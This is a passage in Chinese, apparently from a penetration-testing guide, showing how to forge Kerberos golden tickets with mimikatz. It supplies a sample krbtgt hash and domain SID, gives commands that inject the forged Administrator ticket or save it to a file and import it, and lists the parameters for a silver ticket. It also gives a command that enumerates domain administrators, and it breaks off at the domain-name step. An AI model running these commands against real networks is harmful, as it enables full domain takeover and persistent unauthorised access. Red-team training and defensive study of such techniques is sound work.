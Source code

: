 #### 2.2.2. 制作黄金票据

所需信息

```
work.com # 域FQDN
administrator # 管理员账户
239ad56d36d09131a3584cdc25761616 # krbtgt用户哈希
S-1-5-21-3644623682-4019055222-2476599189 # 域SID
```

制作票据

```batch
# 列出当前会话中缓存的 Kerberos 票据
mimikatz "kerberos::list" exit
# 清空当前Kerberos 票据
mimikatz "kerberos::purge" exit
# 制作黄金票据
mimikatz "kerberos::golden /user:Administrator /domain:work.com /sid:S-1-5-21-3644623682-4019055222-2476599189 /krbtgt:239ad56d36d09131a3584cdc25761616 /ptt" exit
```

生成黄金票据文件

```batch
mimikatz "kerberos::golden /user:Administrator /domain:work.com /sid:S-1-5-21-3644623682-4019055222-2476599189 /krbtgt:239ad56d36d09131a3584cdc25761616 /ticket:Administrator.kiribi" exit
#使用时导入
mimikatz "kerberos::ptt Administrator.kiribi" exit
```

### 2.3. 白银票据制作

**所需参数：**

- /user：目标用户名
- /domain：目标域
- sid：域 SID
- /rc4：服务账户 NTLM 哈希
- /service：目标服务 SPN
- /target：目标主机
- /ptt：将票据加载到票据缓存中

#### 2.3.1. 获取所需参数

##### 用户名

```batch
# 查看域内管理员组成员
net group "domain admins" /domain
```

得到 `administrator`

##### 域名
